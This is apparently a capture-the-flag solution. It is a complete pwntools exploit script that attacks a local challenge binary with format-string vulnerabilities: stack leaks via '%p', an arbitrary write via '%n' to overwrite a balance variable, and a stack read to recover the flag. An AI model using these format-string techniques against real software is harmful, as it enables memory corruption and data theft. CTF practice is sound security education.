 ## Full Exploit Script:
```py
#!/usr/bin/env python3
from pwn import *

context.update(arch='x86')
exe = './chall'
elf = ELF("./chall")

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start()
# p = remote("gc1.eng.run", 32309)

#Leaking the bal variable address
p.recv()

p.sendline(b"1")
p.recvuntil(b"like to check your leaks?")
p.sendline(b"-%p"*50)
p.recvline()
leak = p.recvline()
leak = leak.split(b"-")

baladd = int(leak[21], 16)+10974
log.info(f"bal address: {hex(baladd)}")

#Over write bal with 200 to bypass the check
p.sendline(b"1")
p.recv()
p.sendline(b"%99c%9$n%90c%9$n%11c%9$n" + p64(baladd))
p.recv()

#Leak the flag from the stack since its opened
p.sendline(b"3")
p.recvuntil(b"feedback!")
p.sendline(b"%16$p-%17$p-%18$p-%19$p-%20$p-%21$p-%22$p")
p.recvline()

#Change the hex flag to ascii
flag = p.recvline().split(b"-")
final = ""

for hexval in flag:
    try:
        final += (str(bytes.fromhex(str(hexval)[4:-1]).decode('utf-8'))[::-1])
    except:
        continue

final += "ng!!}"
```